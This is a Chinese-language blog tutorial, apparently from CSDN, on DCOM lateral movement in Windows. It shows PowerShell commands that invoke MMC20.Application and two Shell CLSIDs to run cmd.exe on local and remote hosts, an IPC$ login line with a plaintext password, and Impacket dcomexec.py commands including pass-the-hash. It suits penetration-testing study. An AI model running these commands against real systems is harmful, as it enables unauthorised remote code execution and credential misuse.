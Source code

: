**目录**

[DCOM](#t0 "DCOM")

[本地DCOM执行命令](#t1 "本地DCOM执行命令")

[获取DCOM程序列表](#t2 "获取DCOM程序列表")

[使用DCOM执行任意系统命令](#t3 "使用DCOM执行任意系统命令")

[使用DCOM在远程机器上执行任意系统命令](#t4 "使用DCOM在远程机器上执行任意系统命令")

[1：调用MMC20Application远程执行命令](#t5 "1：调用MMC20Application远程执行命令")

[2：调用9BA05972-F6A8-11CF-A442-00A0C90A8F39远程执行命令](#t6 "2：调用9BA05972-F6A8-11CF-A442-00A0C90A8F39远程执行命令")

[3：调用C08AFD90-F2A1-11D1-8455-00A0C91F3880远程执行命令](#t7 "3：调用C08AFD90-F2A1-11D1-8455-00A0C91F3880远程执行命令")

* * *

DCOM
====

DCOM(分布式组件对象模型)是微软的一系列概念和程序接口。通过DCOM，客户端程序对象能够向网络中的另一台计算机上的服务器程序对象发送请求。DCOM是基于组件对象模型(COM)的。COM提供了一套允许在同一台计算机上的客户端和服务器之间进行通信的接口。

本地DCOM执行命令
----------

### **获取DCOM程序列表**

PowerShell3.0及以上版本命令(Windows Server 2012及以上版本操作系统)

```
Get-CimInstance Win32_DCOMApplication
```


![](https://img-blog.csdnimg.cn/20200202200422767.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

PowerShell2.0命令(Windows7/Server2008等操作系统)

```
Get-WmiObject -Namespace ROOT\CIMV2 -Class Win32_DCOMApplication
```


![](https://img-blog.csdnimg.cn/20200202200756470.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### **使用DCOM执行任意系统命令**

在本地启动一个**管理员权限**的powershell，执行如下命令，该方法通过ExecuteShellCommand运行了calc.exe程序

```
$com=[activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","127.0.0.1"))      
$com.Document.ActiveView.ExecuteShellCommand('cmd.exe',$null,"/c calc.exe","Minimzed")
```


![](https://img-blog.csdnimg.cn/20200202201431465.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

使用DCOM在远程机器上执行任意系统命令
--------------------

以下三种方法均需先IPC$连接

```
net use \\192.168.10.131 /u:administrator "x123456./@"
```


但是实际测试中，以下三种方法都出现了同一个错误

![](https://img-blog.csdnimg.cn/20200202204633744.png)

### **1：调用MMC20Application远程执行命令**

需要使用对方主机管理员组内账号，并且对方主机需要关闭防火墙。

```
$com=[activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","192.168.10.131"))      
$com.Document.ActiveView.ExecuteShellCommand('cmd.exe',$null,"/c calc.exe","Minimzed")
```


但是这里执行到第二步出错了。。 

![](https://img-blog.csdnimg.cn/20200202204600913.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### **2：调用9BA05972-F6A8-11CF-A442-00A0C90A8F39远程执行命令**

适用于Windows7-10，Windows Server2008-Server2016

```
$com = [Type]::GetTypeFromCLSID('9BA05972-F6A8-11CF-A442-00A0C90A8F39',"192.168.10.131")      
$obj = [System.Activator]::CreateInstance($com)      
$item = $obj.item()      
$item.Document.Application.ShellExecute("cmd.exe","/c calc.exe","c:\windows\system32",$null,0
```


但是这里执行到第二步出错了。 

![](https://img-blog.csdnimg.cn/20200202204440542.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### **3：调用C08AFD90-F2A1-11D1-8455-00A0C91F3880远程执行命令**

该方法不适用于Win7，适用于Win10和Server2012 R2

```
$com = [Type]::GetTypeFromCLSID('C08AFD90-F2A1-11D1-8455-00A0C91F3880',"192.168.10.131")      
$obj = [System.Activator]::CreateInstance($com)      
$obj.Document.Application.ShellExecute("cmd.exe","/c calc.exe","c:\windows\system32",$null,0)
```


但是这里执行到第二步出错了。。 

![](https://img-blog.csdnimg.cn/20200202204245252.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

Impacket下的dcomexec.py
---------------------

```
./dcomexec.py  administrator:root@192.168.10.20  whoami      
./dcomexec.py  administrator:@192.168.10.20  whoami  -hashes d480ea9533c500d4aad3b435b51404ee:329153f560eb329c0e1deea55e88a1e9
```


  如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)

相关文章：[域渗透——利用DCOM在远程系统执行程序](https://www.secshi.com/21666.html "域渗透——利用DCOM在远程系统执行程序")

                  [如何利用DCOM实现横向渗透](https://cloud.tencent.com/developer/article/1171111 "如何利用DCOM实现横向渗透")